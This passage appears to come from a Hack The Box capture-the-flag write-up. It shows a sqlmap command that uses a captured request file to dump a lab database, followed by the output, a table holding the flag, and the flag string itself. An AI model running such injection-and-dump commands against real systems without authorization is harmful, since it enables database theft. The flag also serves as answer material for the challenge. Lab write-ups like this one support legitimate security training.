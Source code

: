 Let's use the following sqlmap command:

```
python3 sqlmap.py -r reqcase4.txt --batch --dump --threads 10
```

We'll get the following:

```
Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+
```

Flag is `HTB{j450n_v00rh335_53nd5_6r475}`